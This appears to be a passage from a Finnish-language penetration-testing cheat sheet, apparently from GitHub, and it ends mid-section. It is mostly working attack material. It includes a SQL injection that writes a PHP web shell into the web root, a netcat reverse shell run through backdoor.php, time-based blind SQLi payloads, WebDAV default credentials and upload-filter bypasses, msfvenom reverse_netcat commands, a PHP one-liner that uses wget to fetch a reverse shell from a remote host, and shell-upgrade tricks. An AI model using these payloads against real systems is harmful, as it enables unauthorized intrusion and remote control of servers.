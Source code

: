   - ?id=1 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE '/var/www/html/cmd.php'
  - backdoor.php?cmd=C:\Users\Administrator\Desktop\Tools\netcat\nc.exe <IP> 443 -e cmd.exe
 * Blind SQLi: Voi testata esim. ...id=768 and 1=1;# ja ...id=768 and 1=2;#
  - Jos eka antaa tuloksen, mutta jälkimmäinen ei, on kyseessä haavoittuva SQL-lauseke
  - Jos ei tule outputtia, käytetään aikahyökkäyksiä
   * Esim. ...id=768-sleep(5)
  - Ehdollinen aikahyökkäys: SELECT IF(MID(@@version,1,1) = '5', SLEEP(5), 0);

## Defaultit filepathit servuilla:
  * IIS: c:\Inetpub\wwwroot
  * Apache: /etc/apache2/

## WebDAV
  * cadaver http://<IP>:8080/webdav/
  * Default credut: wampp:xampp
  * Voi usein upata filuja PUTilla
  * Jos filun tyypillä rajoitus, uploadaa sallitun muotoinen filu ja MOVE:ta ajettavaksi muodoksi
  * Tyypin ohitus tyyliin: tiedosto.asp;.txt
  * Lisäämällä headerin "Translate: f" voi saada salattuja filuja esiin => dirb http://<IP> -H "Translate: f"
  * http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html

## PHP cheatsheet:
  * https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/


# Shellhommat

## Msfvenomilla:
  * msfvenom -l payloads |grep "cmd/unix" |awk '{print $1}'
  * msfvenom -p cmd/unix/reverse_netcat LHOST=<IP> LPORT=4444 R

* http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

* https://highon.coffee/blog/reverse-shell-cheat-sheet/

## PHP onelinerit
1. Use http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet in place of the one liner
```<?php echo shell_exec("[INSERT ONE LINER");?>```

2. Guess programs on machine and use LFI to visit file
```<?php echo shell_exec("/usr/local/bin/wget http://<IP>:8000/php-reverse-shell.php -O /var/tmp/shell.php 2>&1");?>```


## TTY shellin hommaus
* python -c 'import pty; pty.spawn("/bin/sh")'
* echo os.system('/bin/bash')
* /bin/sh -i
* perl —e 'exec "/bin/sh";'
* perl: exec "/bin/sh";
* ruby: exec "/bin/sh"
* lua: os.execute('/bin/sh')
* (From within IRB)
  - exec "/bin/sh"
* (From within vi)
  - :!bash
* (From within vi)
  - :set shell=/bin/bash:shell
* (From within nmap)
```